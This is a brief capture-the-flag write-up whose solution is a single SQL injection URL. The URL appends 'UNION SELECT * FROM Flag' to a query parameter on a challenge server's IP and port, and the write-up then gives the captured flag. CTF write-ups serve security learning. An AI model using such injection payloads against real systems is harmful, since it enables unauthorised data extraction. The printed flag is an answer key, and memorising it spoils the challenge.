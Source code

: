 # Solution
```
http://52.59.124.14:5015/?p=2,10%20UNION%20SELECT%20*%20FROM%20Flag
```

Flag: `ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow_AgA1n_And_Ag41n!}`

Solved by: Apik


